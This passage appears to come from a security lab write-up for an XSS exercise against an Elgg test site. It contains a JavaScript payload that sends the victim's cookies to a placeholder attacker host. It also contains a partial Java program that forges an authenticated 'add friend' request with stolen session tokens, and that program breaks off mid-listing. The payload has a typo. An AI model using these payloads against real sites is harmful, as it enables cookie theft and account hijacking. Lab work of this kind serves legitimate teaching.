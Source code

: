 ```js
// send out the cookies
// http GET
<script>
document.write('<img src=http://attackerIP:5555?c='
                     + escape(decument.cookie) + ' >');
</script>
```

## Session Hijacking using the Stolen Cookie

```java
import java.io.*;
import java.net.*;

public class HTTPSimpleForge {
    public static void main(String[] args) throws IOException {
    try {
        int responseCode;
        InputStream responseIn=null;

        String requestDetails = "&__elgg_ts=<<correct_elgg_ts_value>>&__elgg_token=<<correct_elgg_token_value>>";

        // URL to be forged.
        URL url = new URL ("http://www.xsslabelgg.com/action/friends/add?friend=<<friend_user_guid>>"+requestDetails);

        // URLConnection instance is created
        // to further parameterize a resource request past what the state members of URL instance can represent.
        HttpURLConnection urlConn = (HttpURLConnection) url.openConnection();
        if (urlConn instanceof HttpURLConnection) {
            urlConn.setConnectTimeout(60000);
            urlConn.setReadTimeout(90000);
        }

        // addRequestProperty method
        // to add HTTP Header Information.
        // add User-Agent HTTP header to the forged HTTP packet.
        // Add other necessary HTTP Headers yourself. Cookies should be stolen
        // using the method in task3.
        urlConn.addRequestProperty("User-agent","Sun JDK 1.6");

        //HTTP Post Data which includes the information to be sent to the server.
        String data = "name=...&guid=..";

        // DoOutput flag of URL Connection
        // should be set to true to send HTTP POST message.
        urlConn.setDoOutput(true);

        // OutputStreamWriter is used to write the HTTP POST data
        // to the url connection.
        OutputStreamWriter wr = new OutputStreamWriter(urlConn.getOutputStream());
        wr.write(data);
        wr.flush();

        // HttpURLConnection a subclass of URLConnection is returned by
        // url.openConnection() since the url is an http request.
        if (urlConn instanceof HttpURLConnection) {
            HttpURLConnection httpConn = (HttpURLConnection) urlConn;
            // Contacts the web server
            // gets the status code from HTTP Response message.
            responseCode = httpConn.getResponseCode();
```